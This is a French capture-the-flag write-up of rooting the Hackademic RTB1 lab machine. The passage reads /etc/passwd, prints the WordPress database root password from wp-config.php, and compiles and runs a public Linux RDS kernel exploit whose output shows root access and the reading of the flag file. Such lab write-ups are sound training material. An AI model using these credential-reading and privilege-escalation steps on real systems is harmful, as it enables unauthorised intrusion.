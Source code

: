 On est sur une *Fedora 12* 32bits avec un kernel 2.6.31 (*Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP Sat Nov 7 21:41:45 EST 2009 i686 i686 i386 GNU/Linux*)  
.

Voici un extrait du `/etc/passwd` :  

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
(...)
sshd:x:74:484:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
pulse:x:493:483:PulseAudio System Daemon:/var/run/pulse:/sbin/nologin
gdm:x:42:481::/var/lib/gdm:/sbin/nologin
p0wnbox.Team:x:500:500:p0wnbox.Team:/home/p0wnbox.Team:/bin/bash
mysql:x:27:480:MySQL Server:/var/lib/mysql:/bin/bash
```

The way to root
---------------

J'ai fouillé à la recherche d'une tâche mal définie dans `crontab`, les services et processus en cours ainsi que les programmes setuid, dossiers et fichiers world-writable, fichiers appartenant à `p0wnbox.Team` mais toujours sans résultats :(  

Il y a un serveur SMTP qui écoute derrière le firewall :  

`220 localhost.localdomain ESMTP Sendmail 8.14.3/8.14.3; Sun, 30 Mar 2014 14:03:54 +0300`  

On obtient aisément le mot de passe de la BDD :  

```console
sh-4.0$ cat wp-config.php
<?php
// ** MySQL settings ** //
define('DB_NAME', 'wordpress');     // The name of the database
define('DB_USER', 'root');     // Your MySQL username
define('DB_PASSWORD', 'lz5yedns'); // ...and password
define('DB_HOST', 'localhost');     // 99% chance you won't need to change this value
```

MySQL tourne sous l'utilisateur mysql, l'utilisation d'un `INTO OUTFILE` ne semble pas prometteuse...  

Finalement je me suis rabattu sur un exploit pour le noyau ([Linux RDS Protocol Local Privilege Escalation](http://www.exploit-db.com/exploits/15285/) par *Dan Rosenberg*) :  

```console
bash-4.0$ gcc -o rds rds.c 
bash-4.0$ ./rds
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc0aa19ac
 [+] Resolved default_security_ops to 0xc0955c6c
 [+] Resolved cap_ptrace_traceme to 0xc055d9d7
 [+] Resolved commit_creds to 0xc044e5f1
 [+] Resolved prepare_kernel_cred to 0xc044e452
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...
[*] Got root!
sh-4.0# id
uid=0(root) gid=0(root)
sh-4.0# cd /root
sh-4.0# cat key.txt
```